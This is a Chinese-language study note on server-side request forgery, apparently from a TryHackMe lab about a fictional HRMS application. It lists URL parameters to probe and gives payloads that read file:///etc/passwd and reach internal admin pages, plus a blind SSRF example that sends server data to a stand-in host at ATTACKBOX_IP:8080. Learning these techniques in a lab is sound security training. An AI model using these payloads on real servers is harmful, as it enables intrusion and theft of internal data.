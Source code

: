 **寻找线索**: 留意 URL 参数中包含 URL 或主机名的关键字，例如：
`share`, `wap`, `url`, `link`, `src`, `source`, `target`, `u`, `3g`, `display`, `sourceURL`, `imageURL`, `domain`, `file`, `id` (如果值看起来像 URL 或 IP) 等。

**示例**:
`http://example.com/loadImage?image=http://external-image.com/pic.jpg`
如果将 `image` 参数的值修改为内部 IP 地址或 `file://` 路径，例如：
`http://example.com/loadImage?image=http://192.168.1.100/admin`
`http://example.com/loadImage?image=file:///etc/passwd`
在存在 SSRF 漏洞的情况下，服务器会尝试请求这些内部资源或本地文件。通过观察响应（状态码、内容、错误信息），可以探测内部网络或读取文件。

## SSRF 类型 (Types of SSRF)

SSRF 主要可以分为两大类：

### 1. 基础 SSRF (Basic SSRF)

攻击者可以直接在响应中看到服务器请求的结果。

*   **场景一：针对本地服务器 (Targeting the Local Server)**
    攻击者诱使服务器请求其自身（`localhost`, `127.0.0.1`）上的资源，通常是那些不直接对外暴露的文件或服务。
    *   **示例 (HRMS - 版权页面)**: 应用程序通过 `?url=localhost/copyright` 加载页脚版权信息。由于 `url` 参数未经过滤，攻击者可以修改为 `?url=localhost/config` 来尝试读取本地的 `config.php` 文件。如果成功，文件内容会显示在响应中。

*   **场景二：针对内部服务器 (Targeting Internal Servers)**
    攻击者利用存在 SSRF 的服务器作为跳板，请求同一内部网络中其他服务器上的资源，这些资源通常无法从外部直接访问。
    *   **示例 (HRMS - 员工数据/管理面板)**: 应用程序的某个功能（如下拉菜单）通过内部 IP（如 `http://192.168.2.10/employees.php`）加载数据。攻击者可以通过修改前端代码（如使用浏览器开发者工具）或拦截请求，将目标 URL 改为内部管理面板地址（如 `http://192.168.2.10/admin.php`），从而访问到原本无法直接访问的管理界面。

### 2. 盲 SSRF (Blind SSRF)

攻击者可以向目标服务器发送请求，但 **无法直接** 在响应中看到请求的结果。需要使用间接方法来确认漏洞或提取信息。

*   **带外数据泄露 (Out-of-Band - OOB) / 离线 SSRF (Offline SSRF)**: 攻击者使目标服务器向一个攻击者控制的外部服务器（如 `http://ATTACKER_IP:PORT`）发起请求（如 HTTP 请求或 DNS 查询）。如果攻击者的服务器收到了来自目标服务器的连接或数据，就证明了 SSRF 的存在。
    *   **示例 (HRMS - Profile 页面)**: `profile.php` 页面接收 `url` 参数，并使用 cURL 将服务器信息（如 `phpinfo()` 输出）POST 到该 URL。攻击者设置 `url` 为自己控制的服务器地址 `http://ATTACKBOX_IP:8080`。攻击者在自己的服务器上运行一个简单的 HTTP 服务器（如提供的 Python 脚本）来监听连接并记录接收到的数据。如果服务器接收到来自 HRMS 服务器的数据，就确认了 Blind SSRF，并且可能获取到敏感信息。
        ```python
        # Example Python Listener (Simplified Concept)
        from http.server import SimpleHTTPRequestHandler, HTTPServer
        # ... (Full code from the note) ...
        # Run this on attacker machine: sudo python3 server.py
        # Target URL: http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080
        # Check data.html on attacker machine for received info.
        ```
